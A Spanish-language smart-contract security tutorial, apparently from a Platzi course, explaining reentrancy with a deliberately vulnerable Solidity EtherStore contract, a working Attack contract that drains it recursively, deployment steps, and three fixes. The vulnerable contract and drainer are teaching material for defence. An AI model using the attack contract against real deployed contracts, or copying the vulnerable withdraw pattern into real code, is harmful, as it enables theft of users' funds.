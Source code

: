 # Reentrancy simple

Contribución creada como parte del [Curso de Introducción a Seguridad de Smart Contracts](https://platzi.com/clases/2721-seguridad-smart-contracts/45716-reentrancy-simple/) de **Platzi**. 

---

**El depósito y retiro de ETH en un contrato** por parte de un usuario **puede exponer vulnerabilidades** si los mismos no se realizan de la forma correcta.

## Reentrada de transacciones
Uno de los problemas de seguridad más comunes es el denominado **Reetrancy** que provoca llamadas recursivas a una misma función de un contrato hasta vaciar los fondos del mismo.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado
Utilizaremos de ejemplo un contrato inteligente que permite depositar y retirar ETH. Cada dirección solo puede retirar sus propios fondos, pero la vulnerabilidad permitirá que un atacante se quede con todos los fondos.

> **NOTA:** El ejemplo de esta vulnerabilidad fue tomado y adaptado originalmente de [Solidity by examples](https://solidity-by-example.org/hacks/re-entrancy/).

### Contratos involucrados
Comencemos con el contrato principal que contiene la lógica de negocios para el depósito y retiro de Ether.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract EtherStore {
    mapping(address => uint) public balances;

    // Deposito de ETH
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    // Retiro de ETH
    function withdraw() public {
        uint monto = balances[msg.sender];
        require(monto > 0);

        (bool sent, ) = msg.sender.call{value: monto}("");
        require(sent, "El envio de ETH ha fallado.");  
        balances[msg.sender] = 0;
    }

    // Funciona auxiliar para visualizar el balance total del contrato
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

Por otro lado, el contrato atacante. Presta atención a la función `receive()` que es la vía por la cual se genera la recursividad y permite el robo de todos los fondos.

```js
contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        // Creamos la instancia de EtherStore.
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Función receive() es llamada cuando EtherStore envia ETH a este contrato.
    receive() external payable {
        // Al retirar el primer ETH, EtherStore lo enviará a este hook que vuelve a llamar a withdraw de forma recursiva
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    // El ataque consiste en depositar 1 ETH e inmediatamente retirarlo
    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Funciona auxiliar para visualizar el balance total del contrato.
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### Procedimiento para vulnerar el contrato
* 1. Desplegar el contrato `EtherStore`.
* 2. Depositar 1 ETH con dos cuentas. Hasta este punto, el contrato tendría 2 ETH.
* 3. Desplegar contrato `Attack` que recibe en el constructor la dirección de `EtherStore`.
* 4. Hacer el llamado a `Attack.attack` enviando 1 ETH con una tercera cuenta para tener acceso a realizar una extracción. El contrato atacante recibirá los 3 ETH.

> **CONSEJO:** Te animo a que tu mismo despliegues los contratos en entornos como [Remix](https://remix.ethereum.org/) para que explores la vulnerabilidad y veas que, efectivamente, el contrato atacante se queda con todos los fondos.

### ¿Qué sucedió aquí?
`Attack` llamó a `EtherStore.withdraw` múltiples veces antes de que `EtherStore.withdraw` finalice su ejecución. 

**Así es el orden de llamados de las funciones:**
- `Attack.attack`
- `EtherStore.deposit`
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)

### ¿Por qué sucedió?
Al realizarse las llamadas de forma recursiva, **el balance de la cuenta del atacante nunca llega a 0** y, por lo tanto, permite seguir haciendo retiros. Observa que el balance de la cuenta del contrato atacante se setea a 0 recién en la última línea de código de la función `withdraw()`.

```js
function withdraw() public {
    uint monto = balances[msg.sender];
    require(monto > 0);
    (bool sent, ) = msg.sender.call{value: monto}("");
    require(sent, "El envio de ETH ha fallado.");  
    balances[msg.sender] = 0;
}
```

### ¿Cómo se puede evitar?
Hay al menos tres medidas que puedes tomar para evitar este enorme problema de seguridad.

1. El primero es **mover el seteo del balance a 0 antes del llamado a la función externa**.

```js
function withdraw() public {
    uint monto = balances[msg.sender];
    require(monto > 0);
    
    balances[msg.sender] = 0;   // Seteo del balance antes del 'msg.sender.call'

    (bool sent, ) = msg.sender.call{value: monto}("");
    require(sent, "El envio de ETH ha fallado.");  
}
```
Corresponde setear a 0 el balance de la cuenta que retira sus fondos antes de realizar el llamado externo. En el caso de que el llamado falle por otro motivo, no te preocupes, ya que el `require()` hará un `revert()` y los balances volverán a como estaban antes del fallo.

2. También puedes **setear el uso del gas en la llamada externa**.

```js
(bool sent, ) = msg.sender.call{value: monto, gas: 10000}("");
```
Siempre es aconsejable configurar el gas disponible para un llamado externo

3. Otra forma de solucionar esta vulnerabilidad es con **un modificador que valide que la función no se esté llamando de forma recursiva**. Afortunadamente, [OpenZeppelin ya tiene un contrato auditado y seguro](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol) para solventar este problema.

```js
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract EtherStore is ReentrancyGuard {
    // ...

    function withdraw() public nonReentrant {
        // ...
    }
}
```

## Conclusión
Has visto hasta aquí la exigencia de desarrollar un contrato inteligente que administre correctamente fondos. Un simple cambio de orden en la lógica de un contrato puede causar perdidas millonarias. Claro que ya las ha causado y, por este motivo, **Reentrancy** es una vulnerabilidad bien conocida que debes prevenir estudiando su funcionamiento y escribiendo código de forma segura.

---
**Contribución creada por:** *Kevin Fiorentino* **en colaboración con** *Platzi*.
